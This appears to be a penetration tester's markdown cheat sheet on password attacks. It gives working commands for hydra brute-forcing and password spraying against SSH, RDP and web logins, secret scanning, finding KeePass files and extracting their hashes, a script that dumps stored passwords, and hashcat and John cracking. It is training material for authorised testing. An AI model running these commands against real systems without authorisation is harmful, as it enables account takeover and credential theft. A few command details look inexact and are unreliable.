 ```yaml
---
layout: blank
pagetitle: Password Attacks
---
```


## Hydra
- Can be used on a lot of things
- SSH:
	- `sudo hydra -l {username} -P {password_list} -s {port} ssh://{IP}`
	- Lets say we found a password, and want to spray it everywhere (like rdp)
		- `sudo hydra -L {username_list} -p {password} rdp://{IP}`
- HTTP:
	- Provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result
	- `sudo hydra -l {username} -P {password_list} {IP} http-post-form "/{endpoint}:{param1}=^PASS^:Login failed. Invalid"`
		- So, for example: `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:user=admin&password=^PASS^:Login failed. Invalid"`
	- Could also likely just use ffuf (with a filter on size if app returns 200)

## Passwords
- AES is symmetric, RSA is asymmetric
- GPUs crack like a thousand times faster than CPUs

## Finding Passwords
- Just use noseyparker. Can scan file systems, cloned repositories, and even entire github organizations.
    - `noseyparker scan {repo/directory}`
    - `noseyparker scan --github-org={org}`
    - Show results with `noseyparker report`
- Make sure to save or delete the existing `datastore.np` before starting a new scan
- If you want to scan a filesystem that has noseyparker on it, just `chmod 111 noseyparker` before running

## Password Cracking
- Example hashes for each hashcat mode: [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- Mutating Wordlists:
	- https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file
	- Sometimes wordlists might not match the minimum requirements of a password for a location being tested, so the wordlist can drop all of the unneeded passwords
	- `hashcat -r "$1 c $!" {password_list}` will capitalize the first letter of each password, append "1" to the end of each password, and then append "!" to the end of that password
		- Putting these rules into a file with newlines will create a new password for each newline, adding that lines modifications to that password
		- Hashcat provides some rules in `/usr/share/hashcat/rules/`, like `rockyou-30000`
			- They always seem to use `best64.rule`
	- These modifications can be stored in files and used when cracking--for example:
		- `hashcat -m 0 {hash} {password_list} -r {modification_file} --force`
- Ensure to find the type of hash before cracking to save time
- Extracting hashes:
	- Many methods, but here's a novel one:
		- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` will search for kdbx files (KeePass files) containing hashes
		- `keepass2john {keepass_database_file}` to extract hash
    		- Same goes for `pdf2john`, `zip2john`, or `office2john`
    		- We can then list the passwords like so:

```python
from pykeepass import PyKeePass
kp = PyKeePass('{db}.kdbx', password='{password}')
for entry in kp.entries:
    print(f"Title: {entry.title}, Username: {entry.username}, Password: {entry.password}")
```

- Determining hash type:
	- `hashcat --help` will list a lot of info about types of hashes, so if we know where the hash is from, we can look it up here with `hashcat --help | grep -i "{identifier}`
		- This should return the hashcat mode for the hash, which is a number like 13400
- Cracking the hash:
	- `hashcat -m {hashcat_mode (e.g. 13400)} {hash} {wordlist} -r {mutation} --force`
		- Increase speed with `-O -w 4 --opencl-device-types 1,2`

## SSH Private Key Passphrase
- `ssh2john {private RSA SSH key file} > ssh.hash` will put the hash in a crack-able format
- `hashcat -m 22921 ssh.hash {password_list} -r {mutation} --force` will crack the SSH hash
	- 22921 comes from looking up \$6$ in the `hashcat --help` response
	- However, this might result in an error due to this cipher not being supported by hashcat
- John the Ripper 
	- Can handle the error above
	- Can use mutation rules, placed at the end of /etc/john/john.conf
	- `john --wordlist={password_list} --rules=sshRules {hash}` to crack

